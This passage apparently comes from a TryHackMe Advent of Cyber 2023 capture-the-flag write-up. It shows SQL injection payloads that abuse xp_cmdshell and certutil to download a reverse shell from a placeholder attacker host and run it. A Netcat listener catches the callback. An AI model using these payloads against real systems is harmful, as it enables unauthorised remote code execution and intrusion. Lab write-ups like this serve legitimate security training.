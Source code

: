 ```console
# Attacker machine
$ sudo python3 -m http.server <PORT>
```

```
'; EXEC xp_cmdshell 'certutil -urlcache -f http://<ATTACKER_IP>:<PORT>/reverse_shell.exe C:\Windows\Temp\reverse_shell.exe'; --
```

Finally, we need to actually run the reverse shell and catch the callback with Netcat. To do this, set up a Netcat listener on your chosen port with `nc -nvlp <PORT>` and use the following payload:

```
'; EXEC xp_cmdshell 'C:\Windows\Temp\reverse_shell.exe'; --
```

![Advent of Cyber 2023 Day 10 - Netcat Callback](tryhackme/images/aoc2023d10_netcat_callback.png)

Searching through the system, we see we have a `Administrator` user with suspicious files in their `Desktop` directory:

![Advent of Cyber 2023 Day 10 - Admin Desktop](tryhackme/images/aoc2023d10_admin_desktop.png)

Looking at `Note.txt`, we can see this is instructions for how to run the `deface_website.bat` script but also the `restore_website.bat` script:

![Advent of Cyber 2023 Day 10 - Note.txt](tryhackme/images/aoc2023d10_note_txt.png)
